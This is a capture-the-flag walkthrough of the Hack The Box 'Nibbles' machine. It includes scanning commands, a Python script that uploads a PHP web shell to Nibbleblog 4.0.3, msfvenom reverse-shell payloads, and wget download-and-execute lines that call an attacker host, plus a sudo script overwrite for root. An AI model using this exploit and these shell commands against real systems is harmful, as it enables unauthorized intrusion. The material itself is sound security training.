# [Nibbles](https://app.hackthebox.eu/machines/121)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.75 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.75 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.75
# UDP quick scan
sudo nmap -v -sU -F --open -Pn 10.10.10.75
```

The TCP quick scan returns the following:



Start the following web scanner:

```bash
nikto -h http://10.10.10.75/ -C all --maxtime=120s --output=nikto.txt
```



Browse to the site manually:



Not much to see here... The HTML source has an interesting comment though:



Browsing to `http://10.10.10.75/nibbleblog/` shows the following:



Looking at the HTML source code here shows some PHP files:



Start a directory scanner looking for more PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 100 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.75/nibbleblog/ &
```

This website looks like a templates since the bottom has a `Powered by Nibbleblog` message. Look for an exploit:

```bash
searchsploit nibbles
```



This looks promising:

- https://www.exploit-db.com/exploits/35865
  - SQL injection for Nibbleblog 3.0 at `index.php?page=` and `post.php?idpost=`
- https://www.exploit-db.com/exploits/38489
  - Authenticated PHP code execution for Nibbleblog 4.0.3 at `/admin.php`

Since the exploits are dependent on a version, try to find one. The results of the directory scan help here:

```
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 200)
/feed.php (Status: 200)
/themes (Status: 200)
/admin (Status: 200)
/admin.php (Status: 200)
/plugins (Status: 200)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 200)
```

Looking at `http://10.10.10.75/nibbleblog/README` shows the following:



Nice! That makes exploit 38489 more likely. However, this exploit needs valid credentials for `http://10.10.10.75/nibbleblog/admin.php`:



Trying some basic ones like `admin/admin` or `admin/password` does not work... Try an HTTP bruteforce. First get the HTML source code for the `admin.php` login form:

```html
<form id="js_form" name="form" method="post"  >
   <div class="form_block" >
    <input class="username" name="username" type="text" placeholder="Username" autocomplete="off" maxlength="254" />
  </div>
   <div class="form_block" >
    <input class="password" name="password" type="password" placeholder="Password" autocomplete="off" maxlength="254" />
  </div>
  <div class="form_block" >
    <input type="checkbox" id="js_remember" name="remember" class="float"  value="1"/>
    <label class="for_checkbox remember" for="js_remember" >Remember me</label>
    <input type="submit" class="save" value="Login" />
  </div>
</form>
```

Then use this to make the following brute-force login:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra 10.10.10.75 http-form-post "/nibbleblog/admin.php:remember=1&username=admin&password=^PASS^:Incorrect" -l admin -P rockyou.txt -vV -f
```

But this does not work (returns a false positive)... Adding a `-d` shows the following output from the target:

```
0000:  4854 5450 2f31 2e31 2032 3030 204f 4b0d    [ HTTP/1.1 200 OK. ]
0010:  0a44 6174 653a 204d 6f6e 2c20 3039 204e    [ .Date: Mon, 09 N ]
0020:  6f76 2032 3032 3020 3034 3a31 383a 3335    [ ov 2020 04:18:35 ]
0030:  2047 4d54 0d0a 5365 7276 6572 3a20 4170    [  GMT..Server: Ap ]
0040:  6163 6865 2f32 2e34 2e31 3820 2855 6275    [ ache/2.4.18 (Ubu ]
0050:  6e74 7529 0d0a 4578 7069 7265 733a 2054    [ ntu)..Expires: T ]
0060:  6875 2c20 3139 204e 6f76 2031 3938 3120    [ hu, 19 Nov 1981  ]
0070:  3038 3a35 323a 3030 2047 4d54 0d0a 4361    [ 08:52:00 GMT..Ca ]
0080:  6368 652d 436f 6e74 726f 6c3a 206e 6f2d    [ che-Control: no- ]
0090:  7374 6f72 652c 206e 6f2d 6361 6368 652c    [ store, no-cache, ]
00a0:  206d 7573 742d 7265 7661 6c69 6461 7465    [  must-revalidate ]
00b0:  2c20 706f 7374 2d63 6865 636b 3d30 2c20    [ , post-check=0,  ]
00c0:  7072 652d 6368 6563 6b3d 300d 0a50 7261    [ pre-check=0..Pra ]
00d0:  676d 613a 206e 6f2d 6361 6368 650d 0a43    [ gma: no-cache..C ]
00e0:  6f6e 7465 6e74 2d4c 656e 6774 683a 2034    [ ontent-Length: 4 ]
00f0:  380d 0a43 6f6e 6e65 6374 696f 6e3a 2063    [ 8..Connection: c ]
0100:  6c6f 7365 0d0a 436f 6e74 656e 742d 5479    [ lose..Content-Ty ]
0110:  7065 3a20 7465 7874 2f68 746d 6c3b 2063    [ pe: text/html; c ]
0120:  6861 7273 6574 3d55 5446 2d38 0d0a 0d0a    [ harset=UTF-8.... ]
0130:  4e69 6262 6c65 626c 6f67 2073 6563 7572    [ Nibbleblog secur ]
0140:  6974 7920 6572 726f 7220 2d20 426c 6163    [ ity error - Blac ]
0150:  6b6c 6973 7420 7072 6f74 6563 7469 6f6e    [ klist protection ]
```

This seems like a blacklist to prevent a bruteforce... This means the password must be guessable? Try to generate passwords:

```bash
cewl http://10.10.10.75/nibbleblog/ -m 4 -w cewl.txt
cat cewl.txt
```



From this, trying `admin/nibbles` gives a valid login:



With the access, convert the exploit from Metasploit to Python. Here are the exploit steps:

- HTTP POST to `admin.php` to get a login cookie
- HTTP POST to `admin.php` to uplaod an PHP file as an image to the `my_image` plugin
- Find the shell at `content/private/plugins/my_image/image.php`

Here is the Python version of the exploit:

- Big help is this and using Burpsuite to intercept the HTTP POST to translate to Python:
  - https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

```python
import io
import requests

TARGET = 'http://10.10.10.75'
PHP = '<?php echo shell_exec($_REQUEST["c"]); ?>'

s = requests.session()
r = s.get(TARGET + '/nibbleblog/admin.php')
r = s.post(TARGET + '/nibbleblog/admin.php', data={
  'username' : 'admin',
  'password' : 'nibbles',
})
if 'Incorrect' in r.text:
  print(f'[-] bad login:')
  print(r.text)
  exit(1)
print(f'[+] cookie: {s.cookies.get_dict()}')
print('[*] uploading payload ...')
r = s.post(TARGET + '/nibbleblog/admin.php', 
            params={
              'controller': 'plugins',
              'action': 'config',
              'plugin': 'my_image',
            }, 
            files={
              'image': (
                'image.php',
                io.StringIO(PHP),
                'application/x-php',
                '',
              ),
            })
print('[+] DONE. checking if payload exists ...')
r = s.get(TARGET + '/nibbleblog/content/private/plugins/my_image/image.php', 
          params='c=echo "BUBBA IS HERE";id')
print(r.text)
```

Run this script as follows:

```bash
python3 exploit.py
```



Nice! Now use it to get a dedicated shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
# download & execute payload through web shell
curl -s -G --data-urlencode 'c=wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf' http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And this returns a shell for `user.txt`:



Looking around the system, the current user has an interesting Sudo privilege:



Looking at `/home/nibbler` shows that this file does not exist, but `persoanl.zip` does:



Extract the ZIP archive and see what is inside:

```bash
cd ~ && unzip personal.zip
```



The contents of `personal/stuff/monitor.sh` has the following content:

```bash
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
        case $name in
          i)iopt=1;;
          v)vopt=1;;
          *)echo "Invalid arg";;
        esac
done

if [[ ! -z $iopt ]]
then
{
wd=$(pwd)
basename "$(test -L "$0" && readlink "$0" || echo "$0")" > /tmp/scriptname
scriptname=$(echo -e -n $wd/ && cat /tmp/scriptname)
su -c "cp $scriptname /usr/bin/monitor" root && echo "Congratulations! Script Installed, now run monitor Command" || echo "Installation failed"
}
fi

if [[ ! -z $vopt ]]
then
{
echo -e "tecmint_monitor version 0.1\nDesigned by Tecmint.com\nReleased Under Apache 2.0 License"
}
fi

if [[ $# -eq 0 ]]
then
{


# Define Variable tecreset
tecreset=$(tput sgr0)

# Check if connected to Internet or not
ping -c 1 google.com &> /dev/null && echo -e '\E[32m'"Internet: $tecreset Connected" || echo -e '\E[32m'"Internet: $tecreset Disconnected"

# Check OS Type
os=$(uname -o)
echo -e '\E[32m'"Operating System Type :" $tecreset $os

# Check OS Release Version and Name
cat /etc/os-release | grep 'NAME\|VERSION' | grep -v 'VERSION_ID' | grep -v 'PRETTY_NAME' > /tmp/osrelease
echo -n -e '\E[32m'"OS Name :" $tecreset  && cat /tmp/osrelease | grep -v "VERSION" | cut -f2 -d\"
echo -n -e '\E[32m'"OS Version :" $tecreset && cat /tmp/osrelease | grep -v "NAME" | cut -f2 -d\"

# Check Architecture
architecture=$(uname -m)
echo -e '\E[32m'"Architecture :" $tecreset $architecture

# Check Kernel Release
kernelrelease=$(uname -r)
echo -e '\E[32m'"Kernel Release :" $tecreset $kernelrelease

# Check hostname
echo -e '\E[32m'"Hostname :" $tecreset $HOSTNAME

# Check Internal IP
internalip=$(hostname -I)
echo -e '\E[32m'"Internal IP :" $tecreset $internalip

# Check External IP
externalip=$(curl -s ipecho.net/plain;echo)
echo -e '\E[32m'"External IP : $tecreset "$externalip

# Check DNS
nameservers=$(cat /etc/resolv.conf | sed '1 d' | awk '{print $2}')
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

However, none of this content really matters since Sudo allows for the current user to run this file as `root`. Simply make another reverse shell payload and have the target download and execute it as `root` through `personal/stuff/monitor.sh`:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 7777
# download & execute payload through web shell
echo 'wget -O /tmp/bubba.root.elf http://10.10.14.27/bubba.root.elf && chmod +x /tmp/bubba.root.elf && /tmp/bubba.root.elf' > /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

And this returns a shell as `root`:

